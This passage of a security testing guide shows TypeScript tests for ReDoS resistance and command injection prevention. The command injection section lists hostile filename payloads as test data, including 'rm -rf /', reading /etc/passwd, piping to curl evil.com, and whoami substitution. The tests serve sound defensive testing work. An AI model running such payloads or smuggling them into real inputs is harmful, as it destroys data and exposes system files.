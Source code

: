
## 7. ReDoS Testing

### 7.1 Test Complex Regexes

```typescript
// Test regex for catastrophic backtracking
describe('ReDoS Prevention', () => {
  test('Email regex completes quickly', () => {
    const start = Date.now()
    const maliciousInput = 'a'.repeat(50) + '!'

    /^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$/.test(maliciousInput)

    const duration = Date.now() - start
    expect(duration).toBeLessThan(10)  // Should complete in <10ms
  })

  test('Rejects overly long inputs', () => {
    const longInput = 'a'.repeat(10000)
    expect(() => validateEmail(longInput)).toThrow()
  })
})
```

**Online testing tools:**
- https://devina.io/redos-checker
- https://regex101.com (shows step count)

---

## 8. Command Injection Testing

### 8.1 Test Payloads

```typescript
const COMMAND_INJECTION_PAYLOADS = [
  'input.jpg; rm -rf /',
  'input.jpg && cat /etc/passwd',
  'input.jpg | curl evil.com',
  'input.jpg`whoami`',
  'input.jpg$(whoami)',
  '../../../etc/passwd',
  'input.jpg\nwhoami',
  'input.jpg||whoami',
]

describe('Command Injection Prevention', () => {
  for (const payload of COMMAND_INJECTION_PAYLOADS) {
    test(`Blocks: ${payload}`, async () => {
      await expect(
        convertImage({ filename: payload })
      ).rejects.toThrow(/invalid|forbidden/i)
    })
  }

  test('Allows safe filenames', async () => {
    await expect(
      convertImage({ filename: 'image_01.jpg' })
    ).resolves.toBeDefined()
  })
})
```

---